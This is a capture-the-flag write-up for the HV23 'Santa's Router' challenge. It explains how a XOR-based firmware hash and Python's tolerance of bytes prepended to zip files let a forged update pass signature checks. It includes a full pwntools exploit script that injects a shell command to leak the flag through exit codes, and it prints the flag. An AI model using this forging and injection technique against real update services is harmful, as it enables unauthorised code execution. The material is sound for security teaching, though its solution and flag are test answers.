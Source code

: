 [HV23.13] Santa's Router (fabi_07)
### Description
> Santa came across a weird service that provides something with signatures of a firmware. He isn't really comfortable with all that crypto stuff, can you help him with this?
### Solution
The code actually has two vunerabilities. Firstly the hashing function just xores the result. Second, the python zip library actually doesn't care about trailing/prepended bytes. With these two combined, you could make a new firmware.zip and fix the hash by appending the correct 8-bytes. Now you got multiple options. Firstly, you can exfiltrate the flag to a local http server or you can use the return value to leak the flag one character at a time. While writing the challenge, i intended the participants to leak the flag this way, but a couple of smart people just overwrote the chall.py with ```print(flag)```.

[solve.py:](./13-santas-router-source/solve.py)
```py
import base64
from io import BytesIO
import zipfile
from pwn import *

def hashFile(fileContent:bytes) -> int:
    hash = 0
    for i in range(0, len(fileContent), 8):
        hash ^= sum([fileContent[i+j] << 8*j for j in range(8) if i+j < len(fileContent)])
    return hash

r = remote('localhost', 1337)

r.sendlineafter(b'$', b'version')
r.recvuntil(b'Signature: ')
signature = r.recvline()[:-1]

flag = ' '

while flag[-1] != '\0':
    payload = f'''exit $(printf '%d' "'$(cat flag | cut -c {len(flag)})")'''   # payload sent to the server
    with BytesIO() as buffer:
        with zipfile.ZipFile(buffer, 'a', zipfile.ZIP_DEFLATED) as zip_file:
            zip_file.writestr('start.sh', payload)
        # Rewind the buffer to the beginning before reading its content
        buffer.seek(0)
        newZipContent = buffer.read()

    with open('firmware.zip', 'rb') as f:
        hashOld = hashFile(f.read())
        hashNew = hashFile(newZipContent)
        difference = hashOld ^ hashNew          # Calculate the difference in the hash
        diffBytes = bytes([(difference & (255 << 8*j)) >> 8*j for j in range(8)])       # Calculate the bytes to fix the hash
        newZipContent = diffBytes+newZipContent     # Zip's actually don't care about data in the beginning
        zipEncodedData = base64.b64encode(newZipContent)

    r.sendlineafter(b'$', b'update')
    r.sendlineafter(b'>', zipEncodedData)
    r.sendlineafter(b'>', signature)

    flag += chr(int(r.recvline().strip().split()[-1].decode()))

print(f'Flag: {flag}')
```

Flag: **HV23{wait_x0r_is_not_a_secure_hash_function}**